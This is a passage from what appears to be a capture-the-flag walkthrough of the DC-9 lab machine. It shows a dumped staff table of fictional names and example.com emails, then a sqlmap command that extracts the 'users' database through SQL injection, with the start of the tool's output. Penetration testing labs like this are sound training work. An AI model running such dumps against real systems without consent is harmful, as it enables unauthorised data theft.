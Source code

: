 ```bash
| 7  | wilmaf@example.com    | 243457487      | Flintstone | 2019-05-01 17:32:00 | Wilma     | Accounts
                     |
| 8  | bettyr@example.com    | 90239724378    | Rubble     | 2019-05-01 17:32:00 | Betty     | Junior Ac
counts               |
| 9  | chandlerb@example.com | 189024789      | Bing       | 2019-05-01 17:32:00 | Chandler  | President
 - Sales             |
| 10 | joeyt@example.com     | 232131654      | Tribbiani  | 2019-05-01 17:32:00 | Joey      | Janitor
                     |
| 11 | rachelg@example.com   | 823897243978   | Green      | 2019-05-01 17:32:00 | Rachel    | Personal
Assistant            |
| 12 | rossg@example.com     | 6549638203     | Geller     | 2019-05-01 17:32:00 | Ross      | Instructo
r                    |
| 13 | monicag@example.com   | 8092432798     | Geller     | 2019-05-01 17:32:00 | Monica    | Marketing
                     |
| 14 | phoebeb@example.com   | 43289079824    | Buffay     | 2019-05-01 17:32:02 | Phoebe    | Assistant
 Janitor             |
| 15 | scoots@example.com    | 454786464      | McScoots   | 2019-05-01 20:16:33 | Scooter   | Resident
Cat                  |
| 16 | janitor@example.com   | 65464646479741 | Trump      | 2019-12-23 03:11:39 | Donald    | Replaceme
nt Janitor           |
| 17 | janitor2@example.com  | 47836546413    | Morrison   | 2019-12-24 03:41:04 | Scott     | Assistant
 Replacement Janitor |
+----+-----------------------+----------------+------------+---------------------+-----------+----------
---------------------+
```

The above was the exfiltration from the _staff_ database.

Now we exfiltrate from the _users_ database by adding the _-D_ flag with the _users_ parameter.

```bash
──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ sqlmap -r req --dump --batch --dbms=mysql --dbs -D users
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It
is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume
 no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:32:52 /2023-11-09/

[19:32:52] [INFO] parsing HTTP request from 'req'
[19:32:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```